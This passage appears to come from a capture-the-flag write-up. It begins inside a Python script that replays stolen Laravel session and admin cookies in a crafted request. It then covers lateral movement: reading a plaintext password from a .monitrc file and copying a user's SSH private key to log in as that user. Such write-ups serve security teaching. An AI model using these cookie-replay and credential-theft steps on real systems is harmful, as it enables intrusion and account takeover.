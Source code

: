 ```python
    "remember_admin_59ba36addc2b2f9401580f014c7f58ea4e30989d":"eyJpdiI6IjhCL1JnOGZoTFRZM1U2cTJNFZjZEE9PSIsInZhbHVlIjoiVmFMYS95T0hNcFJla005ZXJNNTVHQ0V1em1RU1gzRmJiU2ViVllzdlliT3RwTW5yK3I5lBsK3vN1lIVmxHU0hEemJPZVdraVRCS0dqdGh4SS9WQnZpWFN6TkJuNgvenBTa1Z2QmlHd2doQTRzQWhOOXVqZ3d6MWDSjNsajhyUThlRHZ4YlZIcm5KT0NkZnZRVnBDcnBvdWowlMyaDBYNDgwL3hmY3RxV21zQnpLRHIwenJ3OGE4WGp6bTFOS9hQURHR1pWK0ZQejkxd1NVOGp5OHJjcWpXUmsvcWZJRjErYWdMlJvRT0iLCJtYWMiOiJkM2QyYjI4YWYwNWwNzJiOBiYjJkZDYwM2JlMjViMDJlMGYyNmQxNmQ5M2VmZjZiNGMxYTJiMzMzNDc5ZjNlIiwidGFnIjoiIn0%3D",
    "XSRF-TOKEN":"eyJpdiI6Ik0za0lKNnR5WFdsQWZlb2kyeTY0QXc9PSIsInZhbHVlIjoiU3lqWUE2YVpkMitJa1hGRIrR0JIcEFTQVE5SVp2clZLazYveGlmKzEyejgzNkNZZ0dqTUcyTj4dnc1RUhubnVKLy9nN1NrVklhQUhKSkxSTUlqK0yMDBKZUNkMdPR1J4KzV5bzFiblhHaDAyeFdrY1NVaEpsQ2ttMFlLK24iLCJtYWMiOiI0YmU4MTQ3YWNiMThkZjg4MzIDI2YzNiMjk0YTE1MmJkN2E1ZGY5YmQyNDcxOGM4MTU5NmUwNjQxNzAxZjIzIiwidGFnIjoiIn0%3D",
    "laravel_session":"eyJpdiI6Ik44QThTL3BOZUFkcGdLb1Z5eTBaZ0E9PSIsInZhbHVlIjoiYTZQYStpaXpLakd1npOTFZaSFlwMXpZdEU5ZmorclJKang1U2pSTzdISzJsaHQzWmFtd3lDNzQSjM2cTEvOEhKTG9sVXE1VWRBNlpWaGdUTQxSFFReS92ZmlaTRSMFpSdXAybUlMaVFoOGdkZzdzbzFhOUlRdlVyclJsb0YiLCJtYWMiOiIyMDNiYzk1MWZjYzc5M2zMmIwGFjYWJiMzNjYWZmNDljMGFiNmFlN2EzMjMzNWIzYjM2NTBiMTQyMTIyMWIzIiwidGFnIjoiIn0%3D"
}

response = requests.post(url=craft_url, cookies=cookies)

if response.status_code == 200:
    print(f"Request sending using: {request}")
elif response.status_code == 404:
    print("File not found, the server deleted file")
```
####
<div class="warning">

> Change the cookies for your cookies at the moment to execute.
</div>

####
####
####
## Lateral Movement
#### SSH:
Searching for *SUID* permissions, we don't find anything, not even for **capabilities**, but there is an interesting file in the `/home` directory of us user. The **.monitrc** file is not common, which indicates a possible exploit vector. If we read the file, we see a username and password.
####
```bash
#Enable Web Access
set httpd port 2812
use address 127.0.0.1
allow admin:3nc0d3d_pa$$w0rd
```
####
Now we discovered a service that is running into the target machine of internal form. For be able to consult this service is necessary make a *Local Port Forwarding*. Let me see if our user have a `id_rsa`, effectivelly, we have that file, so if we read that file and save into a new `id_rsa` file in our machine.
####
We could use this approach to authenticate us like a **dash** user without a password. 
####
```ruby
echo '
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAopbNNL9kUO3gswJsA/bNyvlMbqGINWWQ7YZJfhiMii0BmnF0JCrv
    mk8PAWSXkZlvka4IuTVvBOhWD7FmQqIBx4M/mf39BLjA1MbMH2CDkeWyCDsDQREsDtHs4c
    Ww0JdcsOSSI8lx5RV8uS5wEeIeu7Nq40Mfjrg2TznDkuUwP0zMRnp41kUAptbDU1GafulA
    CcFMuwTkqRI6JGSybVQwT6Gu8BS2IOg4PwfMPV9wkQMoFXU80hpeGzrY3T1UTNg9ujO0II
    /dvJoeC11dfc+BQB57h0pr/FIMeFc6uju3nM/C43n+ii9nWHjHl/yOyIg9pfNKTbeG4aMD
    wiFdPBMEQOA6BNGkq7HylWKQsStYa6yd329SACFWbT5cTegrMNYh5KOG3xB5woLt1J+cDU...
' > id_rsa
```